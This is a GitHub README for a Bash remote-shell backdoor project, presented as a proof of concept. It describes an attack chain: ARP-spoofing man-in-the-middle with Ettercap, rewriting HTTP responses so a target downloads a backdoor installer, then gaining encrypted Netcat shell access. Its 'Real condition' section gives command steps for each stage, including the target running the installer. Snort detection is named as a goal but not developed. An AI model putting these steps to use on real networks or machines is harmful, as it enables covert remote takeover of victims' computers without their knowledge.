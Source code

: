 backdoorBash
============

Unix remote-shell backdoor develop with Bash, Netcat, OpenSSL (data encryption with AES-128bit)

## Introduction

This project is associated to another mine : 
- https://github.com/pilebones/etterfilterSamples
- https://github.com/pilebones/hostingBackdoorInstaller

The main goals of this project is to implement an attack scenario as below : 
- Implement backdoor like remote-shell with Bash
- Attack Man In the middle with Ettercap (like ARP Spoofing)
- Hosting a backdoor installer
- Automate data alteration to inject our backdoor inside the computer of target by a browser
- If the target run (naively) the script (ie: the backdoor installer) without reading source-code the computer is infected and the attacker will obtain a remote-access command
- Detect and prevent this kind of attack with NIDS tool as Snort

Notice :
- The programming language was choose only for a Proof of Concept (POC)
- The socket layer is assumed by a portable version of Netcat. I compiled Netcat for i686 and x86_64 computer architecture a put the binary inside this project.
- The transmited data were encrypted with AES-128 (without using Cryptocat). The data are encrypted on the fly via OpenSSL.

## Requirements

- openssl (tested with v1.0.1j)
- ettercap (>= v0.8.1)
- etterfilter (>= v0.8.1)
- etterfilter (>= v0.8.1)
- netcat (The compiled version is "The GNU Netcat" [not BSD release] v0.7.1)

## How it work ?

The backdoor-client connection work localy and remontly (inside same private network with the same access-point), ie : see "$HOST" inside "config.sh".

### Simple test

```bash
git clone git@github.com:pilebones/backdoorBash.git
cd backdoorBash
cp config.sh.sample config.sh 
vim config.sh
./server.sh
HOST=192.168.0.x ./client.sh
```
.... And try to execute some shell command

### Real condition

```bash
git clone git@github.com:pilebones/backdoorBash.git
git clone git@github.com:pilebones/etterfilterSamples.git
git clone git@github.com:pilebones/hostingBackdoorInstaller.git
cp backdoorBash/config.sh.sample backdoorBash/config.sh
vim backdoorBash/config.sh
# For export remove client.sh *.log config.sh.sample
tar xvzf hostingBackdoorInstaller/export.tar.gz backdoorBash/
# Configure your vhost to hosting hostingBackdoorInstaller's project
cd etterfilterSamples/inject_backdoor_installer/
# Update Redirect URL from "fake-http-redirect.txt"
vim fake-http-redirect.txt
IFACE=wlanX IP_AP=192.168.0.1 IP_TARGET=192.168.0.x ./run
# From target try to download a shell script like "test.sh" or try with 404 Not Found page (same behavior => inject backdoor installer)
# From target : "chmod +x bd_installer.sh && ./bd_installer.sh"
HOST=192.168.0.x ./client.sh
```

## Limitations

This backdoor is writing in bash programming language => It work only on Unix OS.

Currently, tested only on :
- Archlinux
- Debian 7 
- Ubuntu 14.10

Warning : 
Some recent router/box/AP/switch prevent this kind of MiTM attack. In this case, Ettercap could relay only one-way network-packets (From target to AP but not from AP to target). So Ettercap can alter the HTTP response to redirect to the backdoor's installer.
